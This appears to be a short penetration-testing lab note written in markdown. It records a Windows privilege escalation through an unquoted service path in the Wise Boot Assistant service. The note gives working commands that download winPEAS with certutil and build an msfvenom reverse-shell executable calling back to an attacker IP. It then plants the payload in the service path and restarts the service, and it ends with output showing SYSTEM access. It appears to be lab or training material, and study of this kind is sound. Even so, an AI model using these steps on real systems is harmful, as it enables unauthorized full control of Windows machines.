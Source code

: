 ```yaml
---
aliases: 
tags:
  - tech
  - cybsec
  - penetration_testing
  - report
author: Mehdi N Tehrani
creat_date: 2023-12-06
category: Cyber Security
subcategory: Penetration Testing - Report
---
```

#winpeas

# Download
`certutil.exe -urlcache -f https://github.com/carlospolop/PEASS-ng/releases/download/20231203-9cdcb38f/winPEASx64.exe winpeas.exe`
and run it.

# Result
finding of interest:
`WiseBootAssistant(WiseCleaner.com - Wise Boot Assistant)[C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe] - Auto - Running - No quotes and Space detected`


# msfvenom - 
#msfvenom
## Craft payload 
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.57.4 LPORT=80 -f exe -o ~/transfer/Wise.exe`
## Transfer file to Victim's Windows machine
## Move file to the right place
`mv Wise.exe 'C:\Program Files (x86)\Wise\'`

## Restart WiseBootAssistant service
`sc query WiseBootAssistant`
`sc stop WiseBootAssistant`
`sc start WiseBootAssistant`

or 

`net stop WiseBootAssistant`
`net start WiseBootAssistant`

or 

`powershell.exe`
`PS C:\>Get-Service Wise*`
`PS C:\>Restart-Service Wise*`

# rooted machine
```
C:\Windows\system32>whoami
whoami
nt authority\system
```

